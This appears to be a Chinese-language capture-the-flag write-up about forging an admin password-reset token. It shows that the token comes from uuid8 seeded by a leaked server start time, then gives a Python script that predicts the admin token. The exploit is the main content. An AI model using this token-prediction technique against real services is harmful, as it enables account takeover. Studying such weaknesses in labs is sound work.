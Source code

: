 "server_start_time":1755442533.0704281

估计同一个靶机该值是一直不变的，类似伪随机数的种子

然后定位到忘记密码和重设密码功能，发现重设密码需要填入一个token

token = request.form.get('token')

再看到token生成的逻辑

```python
# 选哪个UUID版本好呢，好头疼 >_<
# UUID v8吧，看起来版本比较新
token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
```

这时候就让ai结合上面信息搞了一个生成token的脚本如下：  


```python
import uuid
import random

# --- The server_start_time you retrieved ---
# 在 Python 3.13 环境下，直接使用服务器返回的完整浮点数
SERVER_START_TIME = 1755311486.0552502
# -------------------------------------------------------------

# 从服务器源码复制的函数
def padding(input_string):
    byte_string = input_string.encode('utf-8')
    if len(byte_string) > 6:
        byte_string = byte_string[:6]
    padded_byte_string = byte_string.ljust(6, b'\x00')
    padded_int = int.from_bytes(padded_byte_string, byteorder='big')
    return padded_int

# 1. 使用服务器启动时间为随机数生成器设置种子
random.seed(SERVER_START_TIME)

# 2. 目标用户名是 'admin'
admin_username = 'admin'
padded_admin = padding(admin_username)

# 3. 直接调用 uuid.uuid8() 函数，就像服务器上一样
#    (此行代码要求Python 3.13或更高版本)
predicted_token = str(uuid.uuid8(a=padded_admin))

print(f"Predicted Admin Reset Token: {predicted_token}")
```

刚开始一直跑不通，让ai调很久都不行，然后去搜了好久原来是最新的python3.14才支持的uuid6-8，安装一下环境再跑就行了。

![](./images/image3.webp)
